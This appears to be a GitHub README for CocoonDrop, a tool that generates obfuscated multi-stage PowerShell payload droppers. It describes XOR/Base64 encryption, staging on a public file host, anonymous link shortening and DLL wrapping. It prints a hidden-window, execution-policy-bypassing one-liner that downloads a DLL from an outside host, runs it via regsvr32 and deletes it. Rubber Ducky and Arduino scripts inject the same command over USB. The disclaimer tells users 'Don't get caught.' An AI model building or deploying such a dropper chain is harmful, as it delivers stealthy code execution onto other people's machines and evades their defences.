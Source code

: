 # 🐛 CocoonDrop

> _Wrap your payload in a shell of silence._

**CocoonDrop** is a multi-stage payload obfuscator and dropper generator tailored for CTF creators, red teamers, and anyone needing to make payload delivery **silent**, **modular**, and **weirdly beautiful**.

It encrypts PowerShell payloads using XOR + Base64, stages them via Catbox, optionally shortens URLs using **goolnk over RapidAPI (no key needed)**, wraps them in a one-liner, compiles that into a DLL, and delivers the whole thing through your choice of:
- a raw PowerShell command,
- a Rubber Ducky script,
- or a Beetle USB injection sketch.

---

## ⚙️ Features

- ✅ XOR + Base64 obfuscation with custom key or auto-generation
- ✅ Catbox upload of encrypted payload and staging script
- ✅ **Anonymous URL shortening** using RapidAPI + goolnk (no key required)
- ✅ One-liner PowerShell wrapper that pulls & decrypts live
- ✅ Auto-compiled GCC DLL embedding the obfuscated payload
- ✅ Final delivery via:
  - 🖥️ PowerShell execution
  - 🐥 Rubber Ducky HID script
  - 🪲 Beetle USB Arduino HID script
- ✅ Full PyQt5 GUI with dark mode
- ✅ Transparent logging for each phase

---

## 📦 Installation

### 🔧 Requirements

- Python 3.7+
- GCC (`gcc`, `mingw-w64`, or `x86_64-w64-mingw32-gcc`)
- Internet connection (for Catbox & goolnk)

### 🐍 Python Dependencies

```bash
pip install pyqt5 catbox-uploader requests
```

---

## 🧪 Use Cases

| Use Case          | Description                                       |
|-------------------|---------------------------------------------------|
| 🔐 Red Team       | Payload dropper for low-visibility delivery       |
| 🧠 CTF Creation    | Make challenge stages that feel real              |
| 🔌 HID Injection   | Combine with Ducky or Beetle USB for physical access |
| 🔍 Adversarial Sim| Simulate malware delivery without the malware     |
| 🛡️ EDR Testing     | Safe, weird payload behaviors for defense teams   |

---

## 🧰 Workflow Overview

```
[PowerShell Script]
        ↓
[XOR + Base64 Encode]
        ↓
[Upload to Catbox]
        ↓
[Generate Stager → Upload to Catbox]
        ↓
[Shorten Link via goolnk (no key)]
        ↓
[Insert into PowerShell One-Liner]
        ↓
[Encode to UTF-16LE + Base64]
        ↓
[Insert into DLL C Code Template]
        ↓
[Compile DLL → Upload to Catbox]
        ↓
[Final PS Dropper + Ducky/Beetle Scripts (optional)]
```

---

## 🚀 Usage

```bash
git clone https://github.com/Blueuck/CocoonDrop.git
cd cocoondrop
python cocoondrop.py
```

---

## 🖥️ Output Examples

### 🪄 Final PowerShell One-Liner

```powershell
powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "(Invoke-WebRequest -Uri 'https://files.catbox.moe/abc123.dll' -OutFile '$env:TEMP\dropper.dll'); Start-Process -FilePath 'regsvr32.exe' -ArgumentList '/s $env:TEMP\dropper.dll'; Start-Sleep -s 3; Remove-Item -Force -Path '$env:TEMP\dropper.dll'"
```

### 🐥 Rubber Ducky Script

```ducky
DELAY 1000
GUI r
DELAY 200
STRING powershell
ENTER
DELAY 700
STRING powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "(Invoke-WebRequest -Uri 'https://...dll' ..."
ENTER
```

### 🪲 Beetle USB Sketch (Arduino)

```cpp
typeString("powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command ");
typeString(""(Invoke-WebRequest -Uri 'https://files.catbox.moe/abc123.dll' -OutFile '$env:TEMP\dropper.dll'); Start-Process -FilePath 'regsvr32.exe' -ArgumentList '/s $env:TEMP\dropper.dll'; Start-Sleep -s 3; Remove-Item -Force -Path '$env:TEMP\dropper.dll'"");
```

---

## ✍️ GUI Walkthrough

1. 💬 Paste your PowerShell payload  
2. 🔑 Choose or generate a key  
3. 🧪 Encrypt & upload payload  
4. 📤 Auto-generate and upload staging script  
5. 🔗 CocoonDrop silently shortens it via goolnk RapidAPI  
6. 🧙 Generate DLL from the embedded payload  
7. 📎 Get the final execution script  
8. 🎯 Choose HID output (Ducky / Beetle) — optional  

---

## 🔐 Legal & Ethics Notice

CocoonDrop is strictly for:

- 🔐 Ethical red teaming  
- 🧠 CTF creation  
- 🧪 Adversarial simulations  
- 🛡️ Blue team EDR testing  

**You are responsible for your actions.**  
Don't be evil. Don't be stupid. Don’t get caught.

---

## 🧬 Why "CocoonDrop"?

Like a cocoon, the payload is hidden, dormant, ready to execute only when triggered.  
It doesn’t crawl. It waits.  
It doesn’t fight. It deploys.

---

## 👨‍🔧 Credits

- **beigeworm** for the inspo  
- **me** for reverse engineering his brilliance and turning it into an obfuscator  

---

## 🛠️ TODO

- Use more encryption than XOR  
- Add polymorphic encryption with variable layers  

---

## 🪓 License

MIT. Just don’t use it for malware and don’t sue me.
